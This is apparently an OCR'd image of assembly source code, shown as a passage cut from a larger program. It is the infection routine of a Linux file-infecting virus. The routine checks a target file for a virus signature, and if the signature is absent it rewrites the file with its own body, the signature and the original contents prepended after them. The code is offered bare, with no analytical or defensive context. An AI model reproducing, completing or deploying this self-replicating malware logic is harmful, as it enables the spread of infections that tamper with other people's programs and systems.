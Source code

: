 ```nasm
    xor rdx, rdx
    syscall

    mov rax, 0x0
    mov rdi, [rsp]
    lea rsi, [rsp + 1100]
    mov rdx, vsignl
    syscall

    cmp rax, vsignl
    jl .infect

    lea rsi, [rsp + 1100]
    mov rdi, vsign
    mov rcx, vsignl
    rep cmpsb
    je .close

    .infect:
        mov rax, 0x8
        mov rdi, [rsp]
        xor rsi, rsi
        xor rdx, rdx
        syscall

        mov rax, 0x0
        mov rdi, [rsp]
        mov rsi, infected
        mov rdx, max_size
        syscall

        mov r15, rax

        mov rax, 0x8
        mov rdi, [rsp]
        xor rsi, rsi
        xor rdx, rdx
        syscall

        mov rax, 0x1
        mov rdi, [rsp]
        mov rsi, self
        mov rdx, self_size
        syscall

        mov rax, 0x1
        mov rdi, [rsp]
        mov rsi, vsign
        mov rdx, vsignl
        syscall

        mov rax, 0x1
        mov rdi, [rsp]
        mov rsi, infected
        mov rdx, r15
        syscall

    .close:
        mov rax, 0x3
        pop rdi
        syscall

    .continue:
```